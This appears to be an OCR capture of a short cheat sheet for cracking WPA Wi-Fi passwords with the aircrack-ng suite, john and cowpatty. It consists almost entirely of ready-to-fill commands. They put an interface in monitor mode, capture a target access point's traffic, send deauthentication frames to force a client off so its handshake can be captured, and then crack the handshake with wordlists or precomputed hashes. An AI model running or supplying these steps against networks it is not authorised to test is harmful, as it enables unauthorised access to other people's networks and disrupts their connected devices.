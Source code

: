 **Start Interface**  
```bash
airmon-ng start <interface> <AP channel>  
```
  
**Start Dump Capture**  
```bash
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
```
  
  
**Deauthenticate connected Client to get -way handshake**  
```bash
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>  
```
  
**Crack WPA password with Aircrack**  
```bash
aircrack-ng -w <wordlist> <capture>  
```

**OR**  

```bash
aircrack-ng -r <db name> <capture>  
```

**OR**  

```bash
./john --wordlist=<wordlist> --rules --stdout | aircrack-ng -e <ESSID> -w - <capture>  
```

**OR**  

```bash
cowpatty -r <capture> -f <wordlist> -2 -s <ESSID>  
```

**OR FINALLY**  

```bash
genpmk -f <wordlist> -d <hashes filename> -s <ESSID>  
```

**WITH**  

```bash
cowpatty -r <capture> -d <hashes filename> -2 -s <ESSID>
```